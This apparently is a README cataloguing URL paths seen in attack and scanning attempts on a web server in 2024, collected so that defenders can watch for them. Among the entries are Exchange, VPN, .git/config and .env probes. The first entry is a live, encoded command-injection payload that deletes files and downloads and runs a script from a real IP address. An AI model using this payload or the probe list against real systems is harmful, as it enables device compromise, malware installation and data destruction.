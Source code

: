 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- Use the ```is-file-on-server.html``` to determine if you have these files on your server ( Must add paths on your own ).
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)

2. ../autodiscover/autodiscover.json?@zdi/Powershell

3. ../owa/auth/x.js

4. ../backup/.git/config

5. ../log/.git/config

6. ../doc/.git/config

7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com

8. ../Telerik.Web.UI.WebResource.axd?type=rau

9. ../WebInterface/

10. ../sugar_version.json

11. ../icons/sphere1.png

12. ../static/historypage.js

13. ../cgi-bin/authLogin.cgi

14. ../remote/login

15. ../sitecore/shell/sitecore.version.xml

16. ../js/NewWindow_2_all.js

17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js

18. ../showLogin.cc

19. ../webfig/

20. ../cgi-bin/config.exp

21. ../solr/

22. ../api/session/properties

23. ../.env

24. ../owa/auth/logon.aspx

25. ../Temporary_Listen_Addresses

26. ../ews/exchanges/

27. ../ews/exchange%20/

28. ../ews/autodiscovers/

29. ../autodiscover/autodiscover%20/

30. ../ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application

31. ../actuator/health

32. ../+CSCOE+/logon.html

33. ../dana-na/auth/url_default/welcome.cgi

34. ../global-protect/login.esp

```
## Shadow Server Attempts (shadowserver.org)
```
1. ../vpn/index.html

2. ../geoserver/web/

3. ../.git/config

4. ../favicon.ico
```
## Linkedin Scans ( Not Hacks )
```
1. ../wp-content/plugins/chp-ads-block-detector/assets/img/icon.png
```

## Google Scans ( Not Hacks )
```
1. ../xmlrpc.php?rsd

2. ../wlwmanifest.xml  ( Microsoft Live Writer )
```
